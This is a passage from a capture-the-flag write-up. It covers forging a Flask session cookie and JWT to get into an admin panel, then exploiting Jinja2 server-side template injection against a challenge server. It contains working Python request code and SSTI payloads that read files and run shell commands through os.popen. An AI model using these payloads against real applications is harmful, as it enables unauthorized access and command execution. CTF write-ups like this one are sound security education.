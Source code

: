 The forged session cookie looks like `eyJ1c2VyIjoiRmxhZyJ9.aPdXOw.m9jtrZIKQvIBAT5URMNCY5sfJU0` and contains the user information that the application checks to determine if someone is logged in. Since we used the same secret the server uses, this cookie is cryptographically identical to one the server would create itself.

Now we have both pieces of the authentication puzzle - a valid Flask session that says we're logged in as the Flag user, and a valid JWT token that says we have admin privileges. Together, these allow us to bypass the complete authentication system and access the admin panel.

## The Attack

Now comes the fun part. I need both tokens because the application checks:
1. Flask session for authentication (are you logged in?)
2. JWT token for authorization (are you an admin?)

```python
import requests

session = requests.Session()
session.cookies.set('session', forged_session)      # Authentication
session.cookies.set('admin_jwt', admin_token)       # Authorization

# Test admin access
resp = session.get('http://161.97.155.116:5001/admin')
print(f"Admin status: {resp.status_code}")
```

<img width="1573" height="544" alt="image" src="https://gist.github.com/user-attachments/assets/78646a4e-3bae-4371-af42-2fdc0d31cf5c" />



Great! I got 200 OK. The admin panel shows a template renderer form:

<img width="1591" height="636" alt="image" src="https://gist.github.com/user-attachments/assets/c9699028-deb7-43c2-8e30-4564a85b2561" />

## The SSTI Exploit

This is where the real magic happens. The admin panel renders user input as Jinja2 templates without sanitization - classic Server-Side Template Injection (SSTI)!

I used this payload to read the flag file:

```python
ssti_payload = '{{ self.__init__.__globals__.__builtins__.open("secret/flag.txt").read() }}'
resp = session.post('http://161.97.155.116:5001/admin', data={'template': ssti_payload})

if 'QnQsec{' in resp.text:
    print("🚩 FLAG FOUND!")
    print(resp.text)
```

Alternative payload   
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cd secret; cat flag.txt').read() }}`
## The Complete Exploit
